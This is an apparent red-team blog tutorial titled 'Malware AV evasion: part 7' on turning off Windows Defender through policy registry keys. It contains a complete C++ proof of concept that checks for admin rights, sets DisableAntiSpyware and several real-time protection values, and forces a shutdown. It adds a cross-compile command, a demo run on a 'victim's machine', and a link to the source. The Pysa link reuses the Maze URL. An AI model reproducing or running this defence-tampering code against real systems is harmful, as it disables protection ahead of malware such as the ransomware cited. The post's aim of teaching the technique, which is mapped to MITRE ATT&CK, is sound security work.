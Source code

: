 ```yaml
---
title:  "Malware AV evasion: part 7. Disable Windows Defender. Simple C++ example."
date:   2022-06-05 10:00:00 +0600
header:
  teaser: "/assets/images/57/2022-06-05_12-21.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - evasion
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!    

![av](/assets/images/57/2022-06-05_12-21.png){:class="img-responsive"}    

This post is the result of self-researching one of the most common tricks in the malware in the wild.

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

	printf("perfectly disabled :)\npress any key to restart to apply them.\n");
	system("pause");
	system("C:\\Windows\\System32\\shutdown /s /t 0");
	return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:

![av](/assets/images/57/2022-06-05_12-19.png){:class="img-responsive"}    

and check registry keys:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-15.png){:class="img-responsive"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av](/assets/images/57/2022-06-05_12-03.png){:class="img-responsive"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](/assets/images/57/2022-06-05_12-17.png){:class="img-responsive"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-20.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_12-20_1.png){:class="img-responsive"}    

For correctness, check via Windows Defender Security Center:

![av](/assets/images/57/2022-06-05_12-22.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_13-17.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
